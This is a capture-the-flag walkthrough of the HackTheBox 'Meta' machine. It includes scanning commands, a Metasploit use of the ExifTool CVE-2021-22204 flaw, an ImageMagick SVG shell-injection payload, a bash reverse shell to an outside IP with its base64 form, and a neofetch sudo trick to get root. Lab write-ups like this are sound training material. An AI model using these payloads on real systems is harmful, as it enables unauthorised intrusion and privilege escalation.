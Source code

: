 ```yaml
---
title: "HackTheBox Meta Walkthrough"
date: "2022-06-25"
categories: 
  - "htb-walkthroughs"
coverImage: "Meta-1.png"
---
```


Start off with rustscan.

rustscan --range 1-65535 -a 10.10.11.140 -- -A -T4 -Pn -sC -sV
Open 10.10.11.140:22
Open 10.10.11.140:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCiNHVBq9XNN5eXFkQosElagVm6qkXg6Iryueb1zAywZIA4b0dX+5xR5FpAxvYPxmthXA0E7/wunblfjPekyeKg+lvb+rEiyUJH25W/In13zRfJ6Su/kgxw9whZ1YUlzFTWDjUjQBij7QSMktOcQLi7zgrkG3cxGcS39SrEM8tvxcuSzMwzhFqVKFP/AM0jAxJ5HQVrkXkpGR07rgLyd+cNQKOGnFpAukUJnjdfv9PsV+LQs9p+a0jID+5B9y5fP4w9PvYZUkRGHcKCefYk/2UUVn0HesLNNrfo6iUxu+eeM9EGUtqQZ8nXI54nHOvzbc4aFbxADCfew/UJzQT7rovB
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEDINAHjreE4lgZywOGusB8uOKvVDmVkgznoDmUI7Rrnlmpy6DnOUhov0HfQVG6U6B4AxCGaGkKTbS0tFE8hYis=
|   256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
|\_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINdX83J9TLR63TPxQSvi3CuobX8uyKodvj26kl9jWUSq
80/tcp open  http    syn-ack Apache httpd
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-server-header: Apache
|\_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel

[![](images/image-35-1024x439.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-35.png)

In the http\_tile we have :\_http-title: Did not follow redirect to http://artcorp.htb.

Edit /etc/hosts.

[![](images/image-36.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-36.png)

Visit the HTTP link.

[![](images/image-37-1024x1022.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-37.png)

wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://artcorp.htb' -H "Host: FUZZ.artcorp.htb" --hc 301

[![](images/image-38-1024x303.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-38.png)

Again, edit /etc/hosts to add the new subdomain.

[![](images/image-39-1024x783.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-39.png)

It looks like some sort of exif tool is being used to process the file.

With a bit of googling, I found CVE-2021-22204 and a well-written case study. [https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

I used metasploit to create the .jpg.

[![](images/image-40-1024x667.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-40.png)

And multi/handler to listen for a meterpreter shell.

[![](images/image-41-1024x538.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-41.png)

[![](images/image-42.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-42.png)

We don't have permission to read user.txt. But thomas can.

I couldn't find anything running linpeas so I tried pspy.

[![](images/image-43-1024x86.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-43.png)

UID=1000 is thomas running convert\_images.sh on a schedule.

Lets check what's inside the file.

[![](images/image-44-1024x92.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-44.png)

mogrify is an imagick commands. Lets check the version and see what we can do.

mogrify -version

Turns out the version is vulnerable to a shell injection attack.

Here is a nice blog post [https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

We need to create a .svg file and upload it to /var/www/dev01.artcorp.htb/convert\_images/

<image authenticate='ff" \`echo $(id)> ./0wned\`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>

We need to edit the authenticate field, I couldn't get it to work until I converted the command to base64. I think it has to do with character escaping.

[![](images/image-45.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-45.png)

echo 'bash  -i >& /dev/tcp/10.10.14.19/6666 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTkvNjY2NiAwPiYxIAo=

[![](images/image-46-1024x176.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-46.png)

Start a NC listener and upload the file. Make sure to name the file poc.svg (or change the href)

[![](images/image-47-1024x171.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-47.png)

And we've got a user foothold!

Run sudo -l to see what else we can find.

[![](images/image-48-1024x136.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-48.png)

We can run neofetch as sudo but we cannot add any options.

We can try GTFObins [https://gtfobins.github.io/gtfobins/neofetch/](https://gtfobins.github.io/gtfobins/neofetch/)

TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF

Running the code doesn't work. We'll need to add it to the .config files of neofetch.

A quick google search and we can find the .config location. [https://github.com/dylanaraps/neofetch](https://github.com/dylanaraps/neofetch)

[![](images/image-50-1024x249.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-50.png)

That's it. All we needed to do is add exec /bin/sh to the config file and then just the XDG\_CONFIG\_HOME value.

We're root!
